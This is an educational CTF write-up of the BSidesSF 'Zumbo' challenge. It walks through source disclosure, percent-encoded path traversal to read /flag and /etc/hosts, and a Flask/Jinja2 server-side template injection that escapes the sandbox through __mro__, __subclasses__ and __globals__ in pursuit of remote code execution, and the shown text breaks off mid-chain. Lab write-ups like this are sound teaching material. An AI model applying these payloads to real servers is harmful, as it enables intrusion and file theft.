

# Zumbo

The Zumbo challenge is a three-part challenge.

## Challenge 1

> Welcome to ZUMBOCOM....you can do anything at ZUMBOCOM.
> 
> Three flags await. Can you find them?
> 
> http://zumbo-8ac445b1.ctf.bsidessf.net

## Solution 1

In this challenge, we are presented with the homepage of a simple website calling itself "Zumbo Dot Com."


The only interesting thing on the website is a a counter, which reports that "This site has been visited *some number* times." Refreshing the web page increments the counter, and the counter always seems to count up. This is a good indication that there is some server-side code running on the website keeping track of the number of hits.

The first thing we need to do is explore the website to see how this counter, or other parts of the site, might be implemented. In the most basic case, we can simply [use any decent Web browser's "View source" features](http://www.computerhope.com/issues/ch000746.htm) to do this.

* [View the Zumbo Dot Com homepage's HTML source](loot/http_zumbo-8ac445b1.ctf.bsidessf.net_index.template.html)

Reading the source of the HTML page, we see a bunch of JavaScript and CSS. These are both technologies that run inside of the browser (the client), so aren't going to help us figure out how the counter works. However, at the very end of the HTML source we see an HTML comment:

```html
<!-- page: index.template, src: /code/server.py -->
```

This could be anything, but one thing stands out: the `index.template` portion is the same as the URL in our Web browser. Indeed, accessing the Zumbo Dot Com homepage *redirected* us to the page at `/index.template`. The comment seems to indicate that the file at `/code/server.py` is producing this output (because `src` is a common shorthand for "source"). We can test that assumption simply by trying to access a bunch of different, unlinked URLs on the site.

The first one we can try is the path listed in the code comment: `/code/server.py`. To do so, we just replace `index.template` in our browser's address bar with `code/server.py`. When we access [http://zumbo-8ac445b1.ctf.bsidessf.net/code/server.py](http://zumbo-8ac445b1.ctf.bsidessf.net/code/server.py), we're greeted with another, plaintext page that reads simply:

```
[Errno 2] No such file or directory: u'code/server.py'
```

We can again examine the source code. Doing so reveals a similar HTML comment as before, but with the `page:` portion changed:

```
[Errno 2] No such file or directory: u'code/server.py'
<!-- page: code/server.py, src: /code/server.py -->
```

So it appears that whatever we put into the address bar of the site is echoed ("reflected") into this part of the HTML comment. More interesting, however, is that the `src` part has *not* changed. This could mean that whatever is at the `/code/server.py` URL, which is likely a Python script (identifiable by the `.py` ending) is serving these files. This is an assumption, but makes sense because the format of the error message shown on screen matches that of a basic Python error. The giveaway is the end: `u'code/server.py'` is [how Python denotes Unicode-encoded strings](https://docs.python.org/2/howto/unicode.html).

We want to get at this file to get more information about how the website is constructed, but asking for `/code/server.py` did not work. The "No such file or directory" error indicates that we have asked for the wrong URL. So, next, let's simply try `server.py` by loading [http://zumbo-8ac445b1.ctf.bsidessf.net/server.py](http://zumbo-8ac445b1.ctf.bsidessf.net/server.py) into our browser.

Success! This gives us another plain-text page, whose contents is in fact the `server.py` script. Viewing [the source of that page](loot/http_zumbo-8ac445b1.ctf.bsidessf.net_server.py) reveals the same kind of comment at the end:

```py
import flask, sys, os
import requests

app = flask.Flask(__name__)
counter = 12345672


@app.route('/<path:page>')
def custom_page(page):
    if page == 'favicon.ico': return ''
        global counter
        counter += 1
    try:
        template = open(page).read()
    except Exception as e:
        template = str(e)
    template += "\n<!-- page: %s, src: %s -->\n" % (page, __file__)
    return flask.render_template_string(template, name='test', counter=counter);

@app.route('/')
def home():
    return flask.redirect('/index.template');

if __name__ == '__main__':
    flag1 = 'FLAG: FIRST_FLAG_WASNT_HARD'
    with open('/flag') as f:
        flag2 = f.read()
    flag3 = requests.get('http://vault:8080/flag').text

    print "Ready set go!"
    sys.stdout.flush()
    app.run(host="0.0.0.0")

<!-- page: server.py, src: /code/server.py -->
```

Reading this source code, it's clear that the `server.py` file is a Python application that uses [the Flask Web-serving microframework](http://flask.pocoo.org/) to generate HTML pages.

Moreover, the source code here reveals the flag, which is set to a variable called `flag1`:

```python
    flag1 = 'FLAG: FIRST_FLAG_WASNT_HARD'
```

Indeed, with a little knowledge of how Web servers map URLs onto files in a filesystem, the first flag wasn't hard. :)

## Challenge 2

> Welcome to ZUMBOCOM....you can do anything at ZUMBOCOM.
> 
> Three flags await. Can you find them?
> 
> http://zumbo-8ac445b1.ctf.bsidessf.net

## Solution 2

For the second part of the Zumbo challenge, we begin by inspecting the source code of the `server.py` file again. There is clearly another variable, this time called `flag2` in a Python block in the source code:

```py
    with open('/flag') as f:
        flag2 = f.read()
```

With some programming experience, you can easily deduce that this snippet opens a file (located at `/flag`) and then reads its contents into a variable. If you didn't know that, you could search [the Python documentation for the `open()` built-in function](https://docs.python.org/2/library/functions.html#open). In any event, it seems that the second flag is going to be in the file on the server located at `/flag` on its filesystem.

The first thing we can try is simply accessing the `flag` URL at [http://zumbo-8ac445b1.ctf.bsidessf.net/flag](http://zumbo-8ac445b1.ctf.bsidessf.net/flag), however this fails with the familiar "No such file or directory" error. Viewing the source of this page, we can again see the familiar comment:

```html
<!-- page: flag, src: /code/server.py -->
```

The import thing about this comment is that the `page:` being reported is `flag`, not `/flag`, the latter of which is the one we want. This is happening because the current working directory of the server is actually inside the `/code` directory on the server, so when we ask for `/flag` in the URL, we are actually asking for `/code/flag` on its filesystem, which is not a file that exists. We need to go up a level in its filesystem, and we need to use the URL to do so.

Filesystem paths have two special directories, one called `.` (a single dot) which means "the current directory" and another called `..` (two dots) which means "the parent directory." Since our flag file is in the *parent* of the server's current directory (and we, as Web site visitors, are in the server's context), we need to ask the server to go up a directory level first. We do this by asking for `../flag` rather than simply asking for `flag`.

This would make our URL [http://zumbo-8ac445b1.ctf.bsidessf.net/../flag](http://zumbo-8ac445b1.ctf.bsidessf.net/../flag). Unfortuantely, asking for that directly in a browser's address bar (depending on one's browser), usually removes the `../` part. To get around this, we can URL-encode that portion of the address in order to instruct the browser to send a *literal* dot-dot-slash as part of the URL.

URL encoding is simply a syntax for encoding literal characters as part of a URL. It is also known by the term [percent encoding](https://en.wikipedia.org/wiki/Percent-encoding), because each encoded sequence begins with a `%` character. Following the `%` character is a hexadecimal integer that maps to a [UTF-8](https://en.wikipedia.org/wiki/UTF-8) encoded [code point](https://en.wikipedia.org/wiki/Code_point). In UTF-8, a dot (`.`) is at code point `0x2e` (hexadecimal 2E), and a forward-slash (`/`) is at code point `0x2f` (hexadecimal 2F).

The URL path we want to access is `../flag`, so percent-encoding this becomes `%2e%2e%2fflag`. Now, we can access the URL at [http://zumbo-8ac445b1.ctf.bsidessf.net/%2e%2e%2fflag](http://zumbo-8ac445b1.ctf.bsidessf.net/%2e%2e%2fflag) in our browser and we are greeted with the contents of the `/flag` file. Viewing source, we see the flag and the familiar comment, with the expected `page:` value:

```html
FLAG: RUNNER_ON_SECOND_BASE

<!-- page: ../flag, src: /code/server.py -->
```

This technique of navigating around a filesystem in ways that the application developer did not defend against is called a *[path traversal attack](https://en.wikipedia.org/wiki/Directory_traversal_attack)*.

## Challenge 3

> And the final stage, with real hacking included!
> 
> Welcome to ZUMBOCOM....you can do anything at ZUMBOCOM.
> 
> Three flags await. Can you find them?
> 
> http://zumbo-8ac445b1.ctf.bsidessf.net

## Solution 3

> :book: I did not solve this challenge during the CTF. :( After the CTF, I read others' writeups but did not find them optimally educational. So I'm including a narrative writeup of a solution anyway, in accordance with the purpose of this repository.

The final part of the Zumbo challenge teases us by saying this is "the final stage, with real hacking included!" For this final challenge, we need an intimate understanding of Python. But to begin to figure it out, we just continue on the same path as we were on from parts one and two. In this case, that means going back to the `server.py` script and reading it more closely.

The clue to the third flag is clearly visible in the Flask application's source code:

```python
   flag3 = requests.get('http://vault:8080/flag').text
```

As before, we need some programming experience to understand what's happening here. A new variable, called `flag3`, is being initialized. It's a safe bet that the result of the program code that sets this variable is going to give us the third flag. The program code setting this variable is `requests.get('http://vault:8080/flag').text`, so we need to figure out what `requests` is, what its `get()` method does, and what its `text` property means (although these are all pretty semantically meaningful).

At the very top of the `server.py` script is this line:

```python
import requests
```

So [`requests` is a Python library ("module")](http://python-requests.org/), a popular one used for [making HTTP requests and receiving responses](http://www.pythonforbeginners.com/requests/using-requests-in-python). (This is instantly discoverable with a simple Internet search for `python requests` or similar keywords.) Using its [`get()`](http://docs.python-requests.org/en/master/api/#requests.get) method is simply a programmtic way of loading a page, just like you might do in a Web browser. Its [`text`](http://docs.python-requests.org/en/master/api/#requests.Response.text) property is simply a text-only representation of the response body.

Knowing that, it becomes clear that the third flag is to be found on yet another Web server named `vault`. The challenging part is that we don't know where "`vault`" is. All we know is that the Zumbo website knows where `vault` is and that when *it* loads the page at `http://vault:8080/flag`, it receives the flag.

> :book: During the CTF, my first instinct was to leverage the path traversal attack used in the prior part of the challenge to try reading a file that would contain information about what the Zumbo server thought the `vault` name referenced. Following that logic, I asked for [the `/etc/hosts` file](http://zumbo-8ac445b1.ctf.bsidessf.net/%2e%2e%2fetc%2fhosts). My hope was that the name `vault` was bound to a publicly-accessible IP address or domain name as per the standard file-based Linux name lookup mechanism for this file ([described in `hosts(5)`](https://linux.die.net/man/5/hosts)). Unfortunately, this [proved to be a dead-end](loot/http_zumbo-8ac445b1.ctf.bsidessf.net_%252e%252e%252fetc%252fhosts.html).
> 
> Still unconvinced that I had exhausted the utility of the path traversal attack vector, I tried accessing various log files that I thought might contain information about network addresses, hoping to find a reference to a system called `vault` in them. This included the `/var/log/wtmp` and `/var/log/btmp` log files (see [`wtmp(5)`](https://linux.die.net/man/5/wtmp)). These ordinarily contain information about users who authenticate to the system (i.e., users who try to log in). My hope was to be able to download this file and then use a command such as [`last -d -f downloaded-wtmp-file | grep vault`](http://explainshell.com/explain?cmd=last+-d+-f+downloaded-wtmp-file+%7C+grep+vault) to see if I could find an IP address associated with the "`vault`" name. Unfortunately, these logs were either not present, or not readable by the Flask application.

At this point, there are two possible avenues of accessing the third flag:

* somehow read the variable `flag3` directly, or
* somehow execute our own request in the context of the server.

The first option would require making use of a code path in the same Python block as the variable. That block again looks like this:

```py
if __name__ == '__main__':
    flag1 = 'FLAG: FIRST_FLAG_WASNT_HARD'
    with open('/flag') as f:
        flag2 = f.read()
    flag3 = requests.get('http://vault:8080/flag').text

    print "Ready set go!"
    sys.stdout.flush()
    app.run(host="0.0.0.0")
```

It's apparent that there are no opportunities to insert our own code after the line with `flag3` here since there are no places where this code block uses any user-supplied input. Therefore, we must explore our remaining option and see if we can execute arbitrary code on the remote server. That is, find a [remote code execution (RCE)](https://en.wikipedia.org/wiki/Arbitrary_code_execution) vulnerability. To do this, we need to again re-examine the source code, this time looking for any and all places where we can supply input to the program to influence its behavior as it runs.

Thankfully, this program is relatively small. The only place where user-supplied input is accepted is the URL. The relevant code block is this one:

```py
@app.route('/<path:page>')
def custom_page(page):
    if page == 'favicon.ico': return ''
    global counter
    counter += 1
    try:
        template = open(page).read()
    except Exception as e:
        template = str(e)
    template += "\n<!-- page: %s, src: %s -->\n" % (page, __file__)
    return flask.render_template_string(template, name='test', counter=counter);
```

In this code, the value of the URL first becomes the value of the `page` variable. Let's manually trace what this code does with the `page` variable:

1. First, `page` is checked against the literal value `'favicon.ico'`. If the variable is equal to that string (i.e., if the URL we entered was `http://zumbo-8ac445b1.ctf.bsidessf.net/favicon.ico`), then we would `return` from the function, terminating execution. That's a dead-end for us. Let's move on.
1. The next line that uses the `page` variable is inside the `try` block. In this case, the program will `open()` a file whose name is given by the URL, `read()` that file's contents, and assign the contents of that file to the `template` variable. This means we now have two variables to consider: `page` and `template`. Let's follow this code path more closely:
    1. The next line where `template` is used in this code path is the second to last one, where the now-familiar HTML comment is being appended to a new line: `template += "\n<!-- page: %s, src: %s -->\n" % (page, __file__)`.  

      > :bulb: Careful readers will notice that this line also makes use of the `page` variable. The raw, unfiltered contents of `page` are inserted directly into an HTML comment, resulting in an [XSS attack](https://en.wikipedia.org/wiki/Cross-site_scripting). While potentially useful for other reasons, this does not help us pursue the third flag because XSS attacks are executed *locally*, in the client's Web browser, and we are trying to achieve *remote* code execution, in the server itself.  

      Moving on…

    1. …the last line in the function uses `template` again, this time passing it to [Flask's `render_template_string()` method](http://flask.pocoo.org/docs/0.12/api/#flask.render_template_string). This means that if we can control the contents of the `template` variable, we can feed Flask whatever templating code we want. This is useful because Flask's templating engine is called [Jinja](http://jinja.pocoo.org/), and [one of the features of Jinja templates is the ability to execute at least some Python code](http://jinja.pocoo.org/docs/2.9/templates/#list-of-global-functions). Unfortunately, in this code execution path we have no control over the contents of `template` because its contents were read from a file on disk in step 2, making this another dead-end.

Since the above code path does not lead to remote code execution, we next have to explore an alternate code path.

Back in step 2, the `page` variable instructs the code which file to `try` to `open()`. The purpose of nesting this inside a `try` block is to make sure that if the `open()` call fails, the program can handle the error. Since the `page` variable is controlled by *us* (i.e., it is equal to the URL we enter, so it is "user-supplied input"), we can *force* the `open()` call to fail by supplying a URL that we know will refer to a file that does not exist. We've already encountered URLs like this in the very first part of the challenge when we were greeted with a message like "No such file or directory."

Let's now explore that code path, and read what the code does when we access a URL referring to a file that doesn't exist. We'll use `blahblahblah` as the `page` variable (by loading the address `http://zumbo-8ac445b1.ctf.bsidessf.net/blahlbahlbah`) just for the sake of illustration.

1. Once again, the code starts by saving the contents of the URL into the `page` variable.
1. We know that we must *not* supply a URL of `favicon.ico`, because if we did the first line of the function would `return`, and execution would end. Since `blahblahlblah` does not equal `favicon.ico`, we continue executing.
1. Next, the code will `try` to `open()` the file called `blahblahblah`. This will *fail*, because no such file exists.
1. At this point the code exits the `try` block and jumps to the `except` block, setting the variable `e` to the Python error (which [Python calls an "exception"](https://wiki.python.org/moin/HandlingExceptions)). The interesting variable to us is now called `e`, not `page`.
1. The very next line uses the `e` variable by passing it through [Python's built-in `str()` function](https://docs.python.org/2/library/functions.html#str). This function simply turns the error into a plain text string. That string is then set to the `template` variable. This means if we can control the error&mdash;and we *can* control the error because the error is defined by the URL, which is something *we* provide to the program&mdash;then we can control the contents of the `template` variable.
1. On the next line, the familiar HTML comment is appended to the `template` variable, but the variable is otherwise unchanged.
1. Finally, the string stored in `template` (which we can control through the URL) is passed to Flask's `render_template_string()` method as before.

So that's our code path. By supplying a specially-crafted URL, we can write our own Jinja templating code. This attack vector is called a [server-side template injection (SSTI) attack](http://blog.portswigger.net/2015/08/server-side-template-injection.html), which may ultimately give us the RCE we need. The challenge now is how to write a URL that will meet *all* of the following criteria:

* The URL must not be a file that exists.
* The URL must not be the string `favicon.ico`.
* The URL must be interpreted by the Jinja templating engine as executable Python code.

The Jinja documentation isn't quite so plainly worded about how to do this, but they do provide the information we need right near the top in [their *Synopsis* section](http://jinja.pocoo.org/docs/2.9/templates/#synopsis):

> The default Jinja delimiters are configured as follows:
> 
> *  for [Statements](http://jinja.pocoo.org/docs/2.9/templates/#list-of-control-structures)
> * {{ ... }} for [Expressions](http://jinja.pocoo.org/docs/2.9/templates/#expressions) to print to the template output
> * {# ... #} for [Comments](http://jinja.pocoo.org/docs/2.9/templates/#comments) not included in the template output
> * #  ... ## for [Line Statements](http://jinja.pocoo.org/docs/2.9/templates/#line-statements)

Recall that our objective is to write a string that is both not a file name and is also a Python expression that will be evaluated by the Jinja template renderer. The only item in this list that directly matches what we need is the second, Jinja expressions. The Jinja documentation describes expressions as "work[ing] very similarly to regular Python." Jinja's expressions are delimeted by a double brace on each side, meaning our URL will have to start with `{{` and end with `}}`. The percent-encoded sequence for an opening brace (`{`) is `%7B` and the percent-encoded sequence for a closing brace is `%7D`, so we'll ultimately need to craft a URL payload such as `%7B%7B<PAYLOAD-HERE>%7D%7D`, with `<PAYLOAD-HERE>` replaced with the actual Python code we want executed.

Let's test our understanding of this. In Python, if we write the expression `1+1+1`, the response we should see is `3`. (You can prove this to yourself by running [`python -c 'print(1+1+1)'`](http://explainshell.com/explain?cmd=python+-c+%27print%281%2B1%2B1%29%27) at a command line.) In Jinja's syntax, this would be `{{1+1+1}}`. So let's try [using that as the URL](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B1+1+1%7D%7D). Sure enough, we're greeted with the correct answer:

```html
[Errno 2] No such file or directory: u'3'
<!-- page: 3, src: /code/server.py -->
```

Having discovered a server-side template injection vector, our next step is to explore the template environment. We already saw that Jinja's template engine provides a limited set of global functions, and the source code we have available reveals that we have access to the `name` and `counter` variables from the template's context (from the line `flask.render_template_string(template, name='test', counter=counter);` in the `server.py` file). We can verify this by [injecting `{{name}}` through the URL](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7Bname%7D%7D):

```html
[Errno 2] No such file or directory: u'test'
<!-- page: test, src: /code/server.py -->
```

Of course, none of the built-in Jinja functions and neither of the developer-supplied variables present an obvious path towards remote code execution. After all, one of the primary purpsoes of templates is to restrict what code can be run in the first place. This general concept is called a "[sandbox](https://en.wikipedia.org/wiki/Sandbox_(computer_security))." In order to achieve remote code exceution, we need to find a way to get out of Jinja's sandboxed environment.

This is the stage of the challenge requiring an intimate understanding of Python. Thankfully, even if you don't have such knowledge, there's plenty of prior research available to anyone who can imagine some relevant Internet search keywords. Two obvious searches might be [`flask jinja template injection`](https://duckduckgo.com/?q=flask jinja template injection) and [`server-side template injection jinja`](https://duckduckgo.com/?q=server-side template injection jinja), both of which turn up a wealth of information, including a particularly useful blog post titled "[Exploring SSTI in Flask/Jinja2, Part II](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/)."

> :beginner: Even if no prior research was findable by searching the Internet, however, the general methodology you would use is the same: read the documentation for the tools you're using, play with the tools yourself, explore their running environment, and so on, focusing on areas that seem particularly promising. Yes, much of this intuition comes with experience.
> 
> One powerful technique to learn more at this stage would be to mimic as much of the target environment as you can locally. This way, you can make use of far more powerful tools available to you, such as interactive debuggers, rather than being limited to manipulating URLs in a Web browser. This also provides an opportunity to practice administering the tools used by your target.
> 
> For instance, having downloaded the `server.py` source code, we can run this application ourselves on our own computer, and use [Python's standard debugger (`pdb`)](https://docs.python.org/2/library/pdb.html) to explore the target environment. Such a sequence might look like this:
> 
> ```sh
> mkdir -p ~/tmp/ctf/zumbo # make a directory for exploration
> cd ~/tmp/ctf/zumbo       # and go there.
> curl http://zumbo-8ac445b1.ctf.bsidessf.net/server.py > server.py # Download the server.py file
> vi server.py   # Edit the source file to remove the HTML comment (which is invalid Python, of course)
> virtualenv ctf # Create a Python virtual environment called "ctf"
> source ctf/bin/activate # Activate the virtual environment
> pip install flask requests # Install the Flask and requests modules that we know the server.py code uses
> python ./server.py # Run the server ourselves!
> # Running the server error out, because we don't have a `/flag` file, so comment
> # out the lines that we don't care about to get a server running.
> # Once the server is confirmed to be running, we should be able to practice
> # server-side template injection at http://localhost:5000/
> # Then, once confirmed, press CTRL-C to exit the server.
> python -m pdb ./server.py # Now run the server with the standard debugger.
> ```
> 
> At this point, you can write direct Python in the debugger such as `dir(flask)` to list all the Flask global objects and further explore the environment.
> 
> As you can see, having a baseline of familiarity with the tools your target uses is critical for being able to meaningfully explore how you might exploit their system. If the above is unfamiliar to you, take some time to [learn about Python's `virtualenv` utilities](http://docs.python-guide.org/en/latest/dev/virtualenvs/).

Discussed in the previously linked article is an apparently magic incantation, `{{ ''.__class__.__mro__[2].__subclasses__() }}`, that reveals access to the Python execution environment outside of the Jinja template sandbox. Rather than gloss over this detail, let's take the time to at least shallowly dissect why this works.

We already understand the `{{` and `}}` are Jinja expressions, so let's begin by chunking the expression itself and injecting one piece at a time. The first part is the empty string `''`. This is simply a Python string literal. [Injecting it (with a payload of `%7B%7B''%7D%7D`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B''%7D%7D)) returns the familiar "No such file or directory" error, but with zero content:

```html
[Errno 2] No such file or directory: u""
<!-- page: , src: /code/server.py -->
```

A [Python string](https://docs.python.org/2/library/string.html), however, is also a [Python object](https://docs.python.org/2/library/functions.html#object) because *everything* in Python is ultimately an object of some "type." This is somewhat analogous to the way that a filesystem has a root (`/`) and every path attached to this filesystem is located at some position in this hierarchy. We can walk "up" the filesystem hierarchy with `../` and we can walk back "down" the hierarchy by naming the directories we want to access. Similarly, everything in Python—variables, objects, *everything*—somehow descends from a "root object," whose `type` is just a plain ol' `object`. If we can walk "up" the object inheritance hierarchy to the root object, then we can walk back down the hierarchy and access any loaded Python code we want.

The mechanism for doing this in running code is generally termed "[reflection](https://en.wikipedia.org/wiki/Reflection_%28computer_programming%29)," but is sometimes also called "introspection." [Python has numerous code introspection capabilities](http://www.learnpython.org/en/Code_Introspection). Some are documented, such as the [`dir()`](https://docs.python.org/2/library/functions.html#dir) and [`help()` built-in functions](https://docs.python.org/2/library/functions.html#help), which each display information about what properties, methods, or documentation a given object has. Other features are not documented (yet), such as a `type` object's `__mro__` property and `__subclasses__()` method. These latter two are particularly curious because they are intentionally hidden from the output of introspection functions such as `dir()` by the Python interpreter itself.

Next, let's [inject](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B''.__class__%7D%7D) the next chunk of the magic incantation as well: `''.__class__`. The output is:

```html
[Errno 2] No such file or directory: u"<type 'str'>" 
```

This response (`<type 'str'>`) is the same output that we get from an interactive Python interpreter:

```sh
$ python # To launch the interpreter, just type "python" at a command line.
Python 2.7.13 (default, Dec 23 2016, 05:05:58) 
[GCC 4.2.1 Compatible Apple LLVM 7.0.2 (clang-700.1.81)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> ''.__class__
<type 'str'>
```

As is expected, the `__class__` property of any object is a `type` object that reports the parent object's type. (We can prove this by inspecting the `type` object's own type: `''.__class__.__class__` will return `<type 'type'>`. This is equivalent to using [Python's built-in `type()` function](https://docs.python.org/2/library/functions.html#type). That is, `type('')` will also return `<type 'str'>` and, likewise, `type('').__class__` or `type(type(''))` will return `<type 'type'>`.) All this means is that `''.__class__` provides a way to access the Python object inheritance tree through the properties and methods of the built-in `type` objects. We could just as easily have accomplished the same thing by using an integer instead of a string: [injecting `1.__class__`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B1.__class__%7D%7D) will return `<type 'int'>`, which is also a `type` object:

```html
[Errno 2] No such file or directory: u'<type 'int'>' 
```

Now that we have access to a `str`-type (or `int`-type) object's internals, our next task is to traverse up the inheritance hierarchy to reach the root object. That's where the `__mro__` hidden property comes in. Accessing this property reveals the inheritance hierarchy for the given instance. When we [inject `{{''.__class__.__mro__}}`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B''.__class__.__mro__%7D%7D), we see that the empty string is descended from a `basestring` class, which itself is descended from the root `object` class:

```html
[Errno 2] No such file or directory: u"(<type 'str'>, <type 'basestring'>, <type 'object'>)" 
```

Similarly, when we introspect on an integer by [injecting `{{1.__class__.__mro__}}`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B1.__class__.__mro__%7D%7D), we see the literal value `1` is an `int` object, which is descended from the root `object` class:

```html
[Errno 2] No such file or directory: u'(<type 'int'>, <type 'object'>)' 
```

> :bulb: The "MRO" in `__mro__` stands for Method Resolution Order. This was introduced in Python 2.3 to support Python's implementation of [multiple inheritance](https://en.wikipedia.org/wiki/Multiple_inheritance). The only reference to this in the official documentation is [a brief section discussing the difference between "new-style" versus "classic" classes](https://docs.python.org/2/reference/datamodel.html#new-style-and-classic-classes), but you can read [Python 2.3 Method Resolution Order](https://www.python.org/download/releases/2.3/mro/) to learn more.

That root `object` object is what we're after. It's the third element in the `str` object's `__mro__` tuple, and the second in the `int` object's. That means either `''.__class__.__mro__[2]` or `1.__class__.__mro__[1]` will give us access to it. [Injecting either the `int`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B1.__class__.__mro__[1]%7D%7D) or the [`str` introspection code](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B''.__class__.__mro__[2]%7D%7D) yields the same result:

```html
[Errno 2] No such file or directory: u'<type 'object'>' 
```

The root object is most certainly outside of the Jinja template engine, meaning we have successfully escaped Jinja's sandbox. From here, we can now traverse back down the inheritance hierarchy using the root object's `type` object's `__subclasses__()` special method. Like the `__mro__` property, this special method is hidden in ways that built-in functions like `dir()` explicitly omit. Nevertheless, we can see that it is in fact available to us by [injecting `{{''.__class__.__mro__[2].__subclasses__}}`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B''.__class__.__mro__[2].__subclasses__%7D%7D) (or [the equivalent `int`-type introspection code](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B1.__class__.__mro__[1].__subclasses__%7D%7D)):

```html
[Errno 2] No such file or directory: u"<built-in method __subclasses__ of type object at 0x905b80>" 
```

Methods are an object's functions. When we call this method by [injecting `{{''.__class__.__mro__[2].__subclasses__()}}`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B''.__class__.__mro__[2].__subclasses__%28%29%7D%7D) (and in some cases, we need to use the percent-encoded equivalent of the open parentheses `(`, which is `%28`, and the close parenthesis `)`, which is `%29`, to do so), we are rewarded with [a long list of available objects and classes](loot/http_zumbo-8ac445b1.ctf.bsidessf.net_%257B%257B''.__class__.__mro__[2].__subclasses__%2528%2529%257D%257D.html). Each item in this list represents some loaded Python code that we can execute by navigating through the maze of object references.

Since Python can execute arbitrary commands using [the `system()` method of its `os` module](https://docs.python.org/2/library/os.html#os.system), one way of achieving remote code execution is to try to find a way to reference the `os` module from the root object. There are other ways to achieve a similar effect, such as finding a loaded [`file` object](https://docs.python.org/2/library/stdtypes.html#bltin-file-objects) and using [its `write()` method](https://docs.python.org/2/library/stdtypes.html#file.write) to write Python source code to a file on the server, which we later try to execute. However, if we can get a reference to the `os` module, we can just execute commands as though we were sitting at the server's command line, ourselves.

There is *a lot* to look through here so, again, a bit of Internet sleuthing will drastically speed up your search. The following screenshot shows that a `file` object is readily accessible, and a path towards the `os` module is available from the loaded [`warnings` module](https://docs.python.org/2/library/warnings.html) in a couple different locations:


Another approach, if no prior research was available to you, would be an exhaustive search using the Python interpreter in a local environment. For instance:

```sh
$ python
Python 2.7.13 (default, Dec 23 2016, 05:05:58) 
[GCC 4.2.1 Compatible Apple LLVM 7.0.2 (clang-700.1.81)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> dir()
['__builtins__', '__doc__', '__name__', '__package__']
>>> import warnings
>>> dir(warnings)
['WarningMessage', '_OptionError', '__all__', '__builtins__', '__doc__', '__file__', '__name__', '__package__', '_getaction', '_getcategory', '_processoptions', '_setoption', '_show_warning', 'catch_warnings', 'default_action', 'defaultaction', 'filters', 'filterwarnings', 'formatwarning', 'linecache', 'once_registry', 'onceregistry', 'resetwarnings', 'showwarning', 'simplefilter', 'sys', 'types', 'warn', 'warn_explicit', 'warnpy3k']
```

After `import`ing the Python standard library's `warnings` module in a local interpreter, we can see both `WarningMessage` and `catch_warnings` in the output of `dir()`. Both of these classes were among the accessible object references on the target server. To find a reference to the `os` module, though, we need one more piece of specialized Python language knowledge, the `__globals__` special attribute in [the Python data model](https://docs.python.org/2/reference/datamodel.html).

In Python, each loaded function or class method has a (hidden) special attribute called `__globals__` (or `func_globals`, prior to Python version 2.6) described in the documentation as a "reference to the dictionary that holds the function’s global variables — the global namespace of the module in which the function was defined." Since both the `WarningMessage` and `catch_warnings` objects are classes, both of these will by definition have an `__init__()` method. That method, then, will have a `__globals__` (and synonymous `func_globals`) dictionary. We can prove this in our local interpreter, whose output I've truncated below:

```sh
>>> warnings.WarningMessage
<class 'warnings.WarningMessage'>
>>> warnings.WarningMessage.__init__
<unbound method WarningMessage.__init__>
>>> warnings.WarningMessage.__init__.__globals__
{'filterwarnings': <function filterwarnings at 0x10bc95c80>, 'once_registry': {}, 'WarningMessage': <class 'warnings.WarningMessage'>, '_show_warning': <function _show_warning at 0x10bc95b90>, 'filters': [('ignore', None, <type 'exceptions.DeprecationWarning'>, None, 0), ('ignore', None, <type 'exceptions.PendingDeprecationWarning'>, None, 0), ('ignore', None, <type 'exceptions.ImportWarning'>, None, 0), ('ignore', None, <type 'exceptions.BytesWarning'>, None, 0)], '_setoption': <function _setoption at 0x10bc95f50>, 'showwarning': <function _show_warning at 0x10bc95b90>, '__all__': ['warn', 'warn_explicit', 'showwarning', 'formatwarning', 'filterwarnings', 'simplefilter', 'resetwarnings', 'catch_warnings'], 'onceregistry': {}, '__package__': None, 'simplefilter': <function simplefilter at 0x10bc95d70>, 'default_action': 'default', '_getcategory': <function _getcategory at 0x10bc9d0c8>, '__builtins__': {'bytearray': <type 'bytearray'>, 'IndexError': <type 'exceptions.IndexError'>, 'all': <built-in function all>, 'help': Type help() for interactive help, or help(object) for help about object., 'vars': <built-in function vars>, 'SyntaxError': <type 'exceptions.SyntaxError'>, 'unicode': <type 'unicode'>, 'UnicodeDecodeError': <type 'exceptions.UnicodeDecodeError'>, 'memoryview': <type 'memoryview'>, 'isinstance': <built-in function isinstance>, 'copyright': Copyright (c) 2001-2016 Python Software Foundation.
```

What's useful about the `__globals__` dictionary inside the `warnings` module's class objects is that, since the class objects were instantiated in the global Python namespace (which we can see by examining [their source code](https://hg.python.org/cpython/file/2.7/Lib/warnings.py), available to us thanks to the fact that Python is [free software](https://www.gnu.org/philosophy/free-sw.html)), this dictionary will contain references to other loaded Python standard library modules. One of those is [the `sys` module](https://docs.python.org/2/library/sys.html), and [the `sys` module has a dictionary called `modules`](https://docs.python.org/2/library/sys.html#sys.modules) that helpfully enumerates "modules that have already been loaded." Let's explore that:

```sh
>>> warnings.WarningMessage.__init__.__globals__['sys']
<module 'sys' (built-in)>
>>> warnings.WarningMessage.__init__.__globals__['sys'].modules.keys()
